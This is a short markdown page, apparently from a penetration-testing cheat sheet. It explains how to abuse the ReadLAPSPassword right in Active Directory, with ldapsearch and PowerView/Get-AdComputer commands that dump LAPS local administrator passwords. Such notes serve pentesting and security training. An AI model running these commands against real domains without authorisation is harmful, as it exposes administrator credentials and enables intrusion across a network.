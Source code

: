 ```yaml
---
title: "ReadLAPSPassword"
date: 2024-7-30
tags: ["ReadLAPSPassword", "active driectory", "ad", "Windows", "LAPS"]
---
```


### Abuse #1: Read LAPS Password

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
ldapsearch -h <TARGET> -b 'DC=<EXAMPLE>,DC=<COM>' -x -D <USER>@<TARGET> -w '<PASSWORD>' '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Read LAPS password

```console
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred
```

{{< /tabcontent >}}
